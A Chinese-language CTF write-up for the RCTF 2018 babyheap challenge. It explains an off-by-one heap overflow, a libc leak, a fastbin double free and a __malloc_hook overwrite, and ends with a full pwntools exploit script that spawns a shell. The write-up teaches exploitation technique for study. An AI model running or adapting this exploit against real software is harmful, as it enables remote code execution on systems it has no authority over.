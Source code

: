 # RCTF babyheap
## Author: fanda

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>先贴一下**securisecctf队**写的[原wp](https://twisted-fun.github.io/2018-05-24-RCTF18-PWN-317/)的地址，我在这里配合这篇wp再解析一下。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>拿到二进制文件后常规检查一下，可以看到程序本身所有的保护都开了，而libc有一个没开，这意味这我们有改写libc的GOT表的权限，在这里我们可以修改__malloc_hook。</font></br>

![babyheap1](../../screenshot/babyheap/babyheap1.png)

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>用IDA打开附带的libc.so.6，搜索字符串，跟踪/bin/sh，可以看到从**0x4526a**地址处开始有调用execve("/bin/sh")，因此这里就是我们用来getshell的gadget了；用'objdump -R libc.so.6 | grep hook'命令得到__malloc_hook的地址:**0x3c3ef0**</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后我们开始分析这个程序，很典型的堆题套路，漏洞点就在alloc的时候，输入堆块内容的时候存在溢出最后一字节的可能性:</font></br>

```C
__int64 __fastcall set_chunk(__int64 chunk, unsigned int size)
{
  char buf; // [sp+13h] [bp-Dh]@2
  unsigned int i; // [sp+14h] [bp-Ch]@1
  __int64 v5; // [sp+18h] [bp-8h]@1

  v5 = *MK_FP(__FS__, 40LL);
  for ( i = 0; i < size; ++i )
  {
    buf = 0;
    if ( read(0, &buf, 1uLL) < 0 )
      put_error((__int64)"read() error");
    *(_BYTE *)(chunk + i) = buf;
    if ( buf == 10 )
      break;
  }
  *(_BYTE *)(i + chunk) = 0;
  return *MK_FP(__FS__, 40LL) ^ v5;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>64位下利用off-by-one漏洞需要分配一个MINSIZE-8的大小，（不懂原理的可以先看[这里](https://sploitfun.wordpress.com/2015/06/09/off-by-one-vulnerability-heap-based/ "sploitfun")）然后就可以在8字节覆盖完了堆的pre_size后，剩下的溢出的最后一个NULL字节覆盖size的最低地址，抹掉了prev_inuse的标志位，就可以让allcator误以为前面的堆块已经被释放了，触发合并操作，然后配合double-free就可以为所欲为了。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>有了利用思路后，我们首先分配四个堆块，并且尝试泄露libc地址。</font></br>

```python
alloc(0xf0,'A' * 0xf0)#0
alloc(0x70,'A' * 0x70)#1
alloc(0xf0,'A' * 0xf0)#2
alloc(0x30,'A' * 0x30)#3
delete(0)
delete(1)

alloc(0x78,'B' * 0x70 + p64(0x180))#0

delete(2)
alloc(0xf0,'A' * 0xf0)

show(0)
r.recvuntil('content: ')
libc_base = u64(r.recv(6) + "\x00" * 2) - libc.symbols['__malloc_hook'] - 0x68
log.info("libc : " + hex(libc_base))
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>有一点需要注意的是程序内部记录堆块和内存中真正bins里的记录是不一样的，比如分配完之后链表是这样的:</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x000055f71691e400	0x000055f71691e500
0x511654eb7010:	0x000055f71691e580	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>释放完了0号和1号堆块之后是这样的：</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x0000000000000000	0x0000000000000000
0x511654eb7010:	0x000055f71691e580	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后我们重新申请一块0x78(MINSIZE-8)的内存之后实际上分配过来的是原来的1号堆块，但是程序记录时重新将这个堆块标记为0：</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x000055f71691e500	0x0000000000000000
0x511654eb7010:	0x000055f71691e580	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>如上，这就像是链表中原先1号堆块被放到了0号，不过这么理解不太好。实际上是分别释放完了堆块0和1以后（实际bins是向前插入），内存中bins是：{1，0，...}，然后我们再次申请跟1相同大小的内存块的时候系统会直接返还给之前的堆块给我们也就是堆块1，然而这个堆块1会被程序记录为0。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>好了，废话有点多，接下来我们分配的是MINSZIE-8大小的堆块，所以实际上存在8字节可以覆盖下一个堆块（堆块2）的pre_size，然后NULL byte可以覆盖size的pre_inuse标志，当我们写入0x70*'a'+p64(0x180)的时候，下一个堆块的pre_size被修改为0x180,然后pre_inuse被清除，这就相当于欺骗了malloc以为之前有一个0x180大小的已经被释放的堆块，然后我们delete堆块2，malloc就会把这两个堆块合并起来，就会存在一个0x280的大堆块。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来再分配一个0xf0大小的堆块，会被记录为1号，但是在内存里会被放在1号堆块之前的位置，这时候链表是这样的：</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x000055f71691e500	0x000055f71691e400
0x511654eb7010:	0x0000000000000000	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000

pwndbg> x/20xg 0x000055f71691e400
0x55f71691e400:	0x4141414141414141	0x4141414141414141
0x55f71691e410:	0x4141414141414141	0x4141414141414141
0x55f71691e420:	0x4141414141414141	0x4141414141414141
0x55f71691e430:	0x4141414141414141	0x4141414141414141
0x55f71691e440:	0x4141414141414141	0x4141414141414141
0x55f71691e450:	0x4141414141414141	0x4141414141414141
0x55f71691e460:	0x4141414141414141	0x4141414141414141
0x55f71691e470:	0x4141414141414141	0x4141414141414141
0x55f71691e480:	0x4141414141414141	0x4141414141414141
0x55f71691e490:	0x4141414141414141	0x4141414141414141
pwndbg> 
0x55f71691e4a0:	0x4141414141414141	0x4141414141414141
0x55f71691e4b0:	0x4141414141414141	0x4141414141414141
0x55f71691e4c0:	0x4141414141414141	0x4141414141414141
0x55f71691e4d0:	0x4141414141414141	0x4141414141414141
0x55f71691e4e0:	0x4141414141414141	0x4141414141414141
0x55f71691e4f0:	0x0000000000000000	0x0000000000000181
0x55f71691e500:	0x00007f1e8aa59b78	0x00007f1e8aa59b78
0x55f71691e510:	0x4242424242424242	0x4242424242424242
0x55f71691e520:	0x4242424242424242	0x4242424242424242
0x55f71691e530:	0x4242424242424242	0x4242424242424242

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来输入0号堆块的内容，就会泄露出main_arena的地址了，再进行一些计算就能算出libc_base的实际地址，绕过ASLR：</font></br>

```C
 0x55f71690f000     0x55f71693f000 rw-p    30000 0      [heap]
 0x7f1e8a695000     0x7f1e8a855000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so

```
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来进行如下操作：</font></br>

```python
delete(1)

alloc(0x10, 'A' * 0x10)#1
alloc(0x60, 'B' * 0x60)#2
alloc(0x60, 'C' * 0x60)#4
# below chunk will be placed on same address as overlapped chunk
alloc(0x60, 'D' * 0x60)#5
# free overlapped chunk address twice
delete(5)
delete(4)
delete(0)
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>释放完了堆块1号（内存实际位置在0号堆块之前），下面三次alloc都会重新返回刚释放的堆块的地址。在第四次alloc的时候，会把0号堆块切割一下返回分配出来，并被设置为5号堆块，这个时候如果我们free堆块5号和堆块0号（为什么可以free堆块0？因为程序并不知情已经被合并到一个大空闲块了，但是链表记录还在:），相当于对同一个堆块free了两次，出现了double free漏洞，这里我们再free一下4号绕过简单的double free检测，然后就可以利用了：</font></br>

```python
fake_chunk = libc_base + libc.symbols['__malloc_hook'] - 0x23
oneshot = libc_base + 0x4526a
alloc(0x60, p64(fake_chunk) + p64(0) + "H"*0x50)
alloc(0x60,'A' * 0x60)
alloc(0x60,'A' * 0x60)
alloc(0x60,'A' * 0x13 + p64(oneshot) + "\n")

r.sendlineafter("choice: ", "1")
r.sendlineafter(": ", "1")
r.interactive()
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后就得到shell了，完整脚本如下：</font></br>

Exploit脚本：
=========

```python
from pwn import *

DEBUG = 1

if DEBUG == 1:
  r = process('./babyheap')
  context(log_level='debug')
  gdb.attach(r)
else:
  r = remote('babyheap.2018.teamroir.cn',3154)

def alloc(size, payload):
        r.sendlineafter('choice: ','1')
        r.sendlineafter('please input chunk size: ',str(size))
        r.sendafter('input chunk content: ',payload)
def show(index):
        r.sendlineafter('choice: ','2')
        r.sendlineafter('please input chunk index: ',str(index))
def delete(index):
        r.sendlineafter('choice: ','3')
        r.sendlineafter('please input chunk index: ',str(index))

libc = ELF('./libc.so.6')
alloc(0xf0,'A' * 0xf0)#0
alloc(0x70,'A' * 0x70)#1
alloc(0xf0,'A' * 0xf0)#2
alloc(0x30,'A' * 0x30)#3
delete(0)
delete(1)

alloc(0x78,'B' * 0x70 + p64(0x180))#0

delete(2)
alloc(0xf0,'A' * 0xf0)

show(0)
r.recvuntil('content: ')
libc_base = u64(r.recv(6) + "\x00" * 2) - libc.symbols['__malloc_hook'] - 0x68
log.info("libc : " + hex(libc_base))

delete(1)

alloc(0x10, 'A' * 0x10)#1
alloc(0x60, 'B' * 0x60)#2
alloc(0x60, 'C' * 0x60)#4
# below chunk will be placed on same address as overlapped chunk
alloc(0x60, 'D' * 0x60)#5
# free overlapped chunk address twice
delete(5)
delete(4)
delete(0)
fake_chunk = libc_base + libc.symbols['__malloc_hook'] - 0x23
oneshot = libc_base + 0x4526a
alloc(0x60, p64(fake_chunk) + p64(0) + "H"*0x50)
alloc(0x60,'A' * 0x60)
alloc(0x60,'A' * 0x60) 
alloc(0x60,'A' * 0x13 + p64(oneshot) + "\n")

r.sendlineafter("choice: ", "1")
r.sendlineafter(": ", "1")
r.interactive()

```
